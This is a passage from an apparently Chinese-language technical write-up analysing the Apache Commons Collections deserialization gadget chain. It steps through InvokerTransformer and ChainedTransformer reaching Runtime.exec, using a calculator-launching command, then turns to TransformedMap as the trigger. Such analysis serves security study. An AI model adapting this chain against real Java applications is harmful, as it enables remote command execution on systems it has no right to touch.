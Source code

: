 首先getClass方法获取到了class java.lang.Class，接下来执行getMethod方法，参数值this.iMethodName, this.iParamTypes分别是传入的`getMethod`和`new Class[] { String.class, Class[].class }`，返回结果是getMethod的Method对象，执行第三步的method.invoke函数，参数input和this.iArgs分别是`class java.lang.Runtime`和`new Object[] { "getRuntime", new Class[0] }`
invoke方法就相当于执行了getMethod方法获取了getRuntime方法的Method对象

第二次循环

```
new InvokerTransformer("invoke",
    new Class[] { Object.class, Object[].class },
    new Object[] { null, new Object[0] }),
```


| 变量 | 值 |
| --- | :-- |
| input | public static java.lang.Runtime java.lang.Runtime.getRuntime() **java.lang.Runtime.getRuntime()方法的Method对象** |
| cls | class java.lang.reflect.Method |
| method | public java.lang.Object java.lang.reflect.Method.invoke(java.lang.Object,java.lang.Object[]) |
| return | 相当于执行了java.lang.Runtime.getRuntime() **拿到了Runtime对象** |

首先拿到了class java.lang.reflect.Method然后利用getMethod拿到了`java.lang.reflect.Method.invoke(java.lang.Object,java.lang.Object[])`方法，然后对该方法执行invoke获取到了Runtime对象

第三次循环

```
new InvokerTransformer("exec",
    new Class[] { String.class },
    new Object[] { "open /Applications/Calculator.app" }),
```

| 变量 | 值 |
| :-- | :-- |
| input | class java.lang.Runtime |
| cls | Runtime的Class |
| method | public java.lang.Process java.lang.Runtime.exec(java.lang.String) |
|  | invoke调用了exec方法，造成命令执行 |

通过cls和getMethod拿到了exec方法的Method对象，然后利用invoke进行命令执行

也就是说，现在只要在反序列化过程中能够触发到`org.apache.commons.collections.functors.ChainedTransformer`的transform函数即可触发漏洞，造成命令执行了。

接下里就来寻找使用什么来触发transform函数

#### TransformedMap

通过TransformedMap和AnnotationInvocationHandler来触发transform函数

对map执行过TransformedMap.decorate之后，当map有put、putAll、setValue等操作时就会触发对应的transform函数。
对map使用setValue，首先进入了checkSetValue
![-w597](media/15662017023838/15662924307353.jpg)
然后checkSetValue方法执行了对应的transform函数